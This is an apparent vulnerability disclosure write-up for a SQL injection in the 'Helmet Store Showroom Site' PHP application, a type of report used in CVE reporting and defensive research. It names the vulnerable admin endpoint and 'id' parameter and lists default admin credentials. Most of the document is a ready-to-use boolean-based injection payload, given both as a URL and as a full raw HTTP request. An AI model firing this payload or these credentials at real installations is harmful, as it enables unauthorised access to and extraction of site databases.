 # Helmet Store Showroom Site System - SQL injection

Helmet Store Showroom Site exists to contain a SQL injection vulnerability via the 'id' parameter at /hss/admin/products/view_product

username:admin password:admin123 ----> {ip}/hss/admin/products/view_product

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/hss/admin/products/view_product has SQL injection

Payload: http://localhost/CVE/hss/admin/?id=2%27and%27w%27%3D%27w&page=products%2Fview_product

SQL injection because $id can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/34.png)

## Payload

```s
GET /CVE/hss/admin/?id=2%27and%27w%27%3D%27w&page=products%2Fview_product HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=54rsf28aqebnbq3u13aeg0t8tn
Referer: http://localhost/CVE/hss/admin/?page=products
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip



```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/35.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/36.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/37.png)